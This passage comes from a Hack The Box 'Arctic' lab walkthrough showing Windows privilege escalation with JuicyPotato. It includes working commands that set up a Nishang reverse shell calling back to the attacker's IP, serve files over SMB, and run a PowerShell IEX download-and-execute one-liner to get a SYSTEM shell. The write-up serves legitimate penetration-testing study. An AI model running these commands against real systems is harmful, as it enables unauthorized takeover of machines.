 
I've been using [JuicyPotato](https://ohpe.it/juicy-potato/) a lot lately, and I'll stick with it here, since the needed privilege is enabled, and we have our choice of exploits to use. The process for JuicyPotato is as follows below. A more detailed breakdown can be found in some of my other recent Windows walkthroughs like [Bastard](https://dm7500.github.io/oscp-prep/2020-02-28-HTB-Bastard/) or [Bounty](https://dm7500.github.io/oscp-prep/2020-02-11-HTB-Bounty/).

#### JuicyPotato steps

1. Copy the executable for JP to our working directory with `cp /opt/JuicyPotato.exe jp.exe`.
2. Copy the Nishang Invoke-PowerShellTcp.ps1 reverse shell script to our working directory with `cp /opt/nishang/Shells/Invoke-PowerShellTcp.ps1 revshell.ps1`
   1. Edit the `revshell.ps1` file to include `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.34 -Port 7600` on a new line at the end of the file.
3. Stand up a SMB server with `sudo impacket-smbserver kali .`
4. Copy the `jp.exe` file to the target with `copy \\10.10.14.34\kali\jp.exe .`.
5. Open a listener for the new reverse shell with `rlwrap nc -lvnp 7600`
6. On the target, run `jp.exe -t * -p C:\windows\system32\WindowsPowerShell\v1.0\powershell.exe -l 9001 -a "-c IEX(new-object net.webclient).downloadstring('http://10.10.14.34:9090/revshell.ps1')" -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}` to trigger the exploit.

![](/assets/htb-arctic/root_shell.png)

You can read `root.txt` from `C:\users\administrator\desktop\root.txt`

![](/assets/htb-arctic/root_proof.png)

